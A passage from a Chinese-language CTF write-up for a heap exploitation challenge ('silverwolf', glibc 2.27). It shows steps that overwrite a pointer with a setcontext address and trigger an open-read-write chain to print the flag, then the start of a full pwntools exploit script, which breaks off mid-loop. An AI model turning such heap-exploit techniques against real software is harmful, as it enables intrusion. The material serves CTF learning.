    ```python
   add(0x18)
   edit(p64(setcontext_addr))
   ```

   open函数直接使用**syscall执行**：

   ![image-20240723215748976](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407232234166.png)

   ![image-20240723220126454](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407232201696.png)

   ![image-20240723184652834](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407231846079.png)

5. 触发ORW，获取flag：

   ```python
   #触发ORW
   add(0x48)
   free()
   p.interactive()
   ```

   ![image-20240723185011405](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202407231850509.png)

   

   完成EXP：

   ```python
   from pwn import *
   context(os='linux', arch='amd64', log_level='debug')
   
   def debug():
       print(proc.pidof(p))
       pause()
   
   # p = remote("node4.anna.nssctf.cn",28809)
   p = process("./silverwolf")
   # p = gdb.debug("./pwn")
   libc = ELF('./libc-2.27.so')
   elf = ELF("./pwn")
   
   def add(size):
       p.sendlineafter(b'Your choice: ',b'1')
       p.sendlineafter(b'Index: ',str(0))
       p.sendlineafter(b':',str(size))
   
   def edit(content):
       p.sendlineafter(b'Your choice: ',b'2')
       p.sendlineafter(b'Index: ',b'0')
       p.sendlineafter(b':',content)
   
   def show():
       p.sendlineafter(b'Your choice: ',b'3')
       p.sendlineafter(b'Index: ',b"0")
   
   def free():
       p.sendlineafter(b'Your choice: ',b'4')
       p.sendlineafter(b'Index: ',b'0')
   
   for i in range(7):
       add(0x78)
       edit(b"a")
   for i in range(7+4):
       add(0x68)
       edit(b"a")
   for i in range(7+5):
   ```